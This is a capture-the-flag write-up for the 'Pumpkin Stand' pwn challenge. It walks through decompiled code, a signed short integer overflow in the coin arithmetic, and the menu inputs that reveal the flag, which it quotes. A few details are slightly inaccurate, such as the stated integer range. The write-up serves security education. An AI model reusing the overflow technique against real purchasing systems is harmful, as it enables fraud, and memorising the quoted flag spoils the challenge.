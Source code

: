 ```yaml
---
layout: default
title: Pumpkin Stand
---
```


# [Hack The Boo](index.md) - Pwn - Pumpkin Stand

**Difficulty:** Easy
> This time of the year, we host our big festival and the one who craves the pumpkin faster and make it as scary as possible, gets an amazing prize! Be fast and try to crave this hard pumpkin!

We are provided a binary.

Decompiling the binary with Ghidra, we see that the application sticks us in 4 `while` loops, each with it's own `if` statement that will break out of the loop if certain criteria are met.

```c
  while( true ) {
    while( true ) {
      while( true ) {
        while( true ) {
          menu();
          __isoc99_scanf(&DAT_0010132b,&menu_item_selection);
          printf("\nHow many do you want?\n\n>> ");
          __isoc99_scanf(&DAT_0010132b,&quantity_selection);
          if (0 < quantity_selection) break;
          printf("%s\n[-] You cannot buy less than 1!\n",&DAT_0010134a);
        }
        pumpcoins = pumpcoins -
                    quantity_selection *
                    (short)*(undefined4 *)((long)&values + (long)(int)menu_item_selection * 4);
        if (-1 < pumpcoins) break;
        printf("\nCurrent pumpcoins: [%s%d%s]\n\n",&DAT_00100e80,(ulong)(uint)(int)pumpcoins);
        printf("%s\n[-] Not enough pumpcoins for this!\n\n%s",&DAT_0010134a,&DAT_00100e78);
      }
      if (menu_item_selection != 1) break;
      printf("\nCurrent pumpcoins: [%s%d%s]\n\n",&DAT_00100e80,(ulong)(uint)(int)pumpcoins);
      puts("\nGood luck crafting this huge pumpkin with a shovel!\n");
    }
    if (0x270e < pumpcoins) break;
    printf("%s\n[-] Not enough pumpcoins for this!\n\n%s",&DAT_0010134a,&DAT_00100e78);
  }
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  flag_file_contents = fopen("./flag.txt","rb");
  if (flag_file_contents != (FILE *)0x0) {
    fgets((char *)&local_48,0x30,flag_file_contents);
    printf("%s\nCongratulations, here is the code to get your laser:\n\n%s\n\n",&DAT_00100ee3,
           &local_48);
    exit(0x16);
  }
```

If we break out of all of the loops, it will show us the flag.

From inner-most to outer-most, the criteria that we need to meet to break out of the loops are:
- The menu item we select must be greater than `0`
- We must have more than `-1` coins
- The menu item we select must not equal `1`
- Our coins must be greater than `9998` (`0x270e` in hex = `9998` in decimal)

We can see that the math used to calculate "pumpcoins" each loop iteration is as follows:
```c
pumpcoins = pumpcoins - quantity_selection * (short)*(undefined4 *)((long)&values + (long)(int)menu_item_selection * 4);
```

This looks a bit.. wonky... but this looks like it'll be what we need to abuse to break out of the loops.

The new coin value is calculated regardless of if we have enough coins or not, so if we continue to buy shovels, we quickly go into the negative.
The coin value is a signed small integer, meaning it can store values between `–32,767` and `32,767`. If we get this value over `32767` or under `-32767`, it will wrap around - `32767 + 1` will get us `-32767`, and vice-versa.

```
Current pumpcoins: [1337]

Items:

1. Shovel  (1337 p.c.)
2. Laser   (9999 p.c.)

>> 1

How many do you want?

>> 2

Current pumpcoins: [-1337]


[-] Not enough pumpcoins for this!


Current pumpcoins: [-1337]

Items:

1. Shovel  (1337 p.c.)
2. Laser   (9999 p.c.)

>>
```

No matter what quantity we select, if we choose option 2 - the laser - our coins get reset to zero.

We can easily get our coin count above 9998 by buying enough shovels to cost more than 32767 coins. 26 shovels is just enough for this, giving us 32111 coins.

```
Current pumpcoins: [1337]

Items:

1. Shovel  (1337 p.c.)
2. Laser   (9999 p.c.)

>> 1

How many do you want?

>> 26

Current pumpcoins: [32111]


Good luck crafting this huge pumpkin with a shovel!


Current pumpcoins: [32111]

Items:

1. Shovel  (1337 p.c.)
2. Laser   (9999 p.c.)

>>
```

We can see the string `Good luck crafting this huge pumpkin with a shovel!`, so we know we're in the second-last loop - only one more to break out of and we'll get the flag.

Selecting option 1 will only keep us in the loop - we could potentially stay here forever wrapping the coin amount from negative to positive... that is, if the program didn't automatically kick us out after about 2 minutes.
Selecting option 2 will reset our coins to zero.
Selecting any other small integer will exit the last loop, keeping our coin values the same so that we're still breaking out of the other inner loops. Selecting menu option 3, quantity 1, from the menu will get us the flag.

```

                                          ##&
                                        (#&&
                                       ##&&
                                 ,*.  #%%&  .*,
                      .&@@@@#@@@&@@@@@@@@@@@@&@@&@#@@@@@@(
                    /@@@@&@&@@@@@@@@@&&&&&&&@@@@@@@@@@@&@@@@,
                   @@@@@@@@@@@@@&@&&&&&&&&&&&&&@&@@@@@@&@@@@@@
                 #&@@@@@@@@@@@@@@&&&&&&&&&&&&&&&#@@@@@@@@@@@@@@,
                .@@@@@#@@@@@@@@#&&&&&&&&&&&&&&&&&#@@@@@@@@@@@@@&
                &@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@
                @@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&&@@@@@@@@@&@@@@@
                @@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@
                @@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@
                .@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@
                 (@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@.
                   @@@@@@@@@@@@@@&&&&&&&&&&&&&&&@@@@@@@@@@@@@@
                    ,@@@@@@@@@@@@@&&&&&&&&&&&&&@@@@@@@@@@@@@
                       @@@@@@@@@@@@@&&&&&&&&&@@@@@@@@@@@@/

Current pumpcoins: [1337]

Items:

1. Shovel  (1337 p.c.)
2. Laser   (9999 p.c.)

>> 1

How many do you want?

>> 26

Current pumpcoins: [32111]


Good luck crafting this huge pumpkin with a shovel!


Current pumpcoins: [32111]

Items:

1. Shovel  (1337 p.c.)
2. Laser   (9999 p.c.)

>> 3

How many do you want?

>> 1

Congratulations, here is the code to get your laser:

HTB{1nt3g3R_0v3rfl0w_101_0r_0v3R_9000!}


Connection closed by foreign host.
```

# Takeaways
- When writing a program that handles money, ensure that the math in your program makes logical sense based on your scenario.
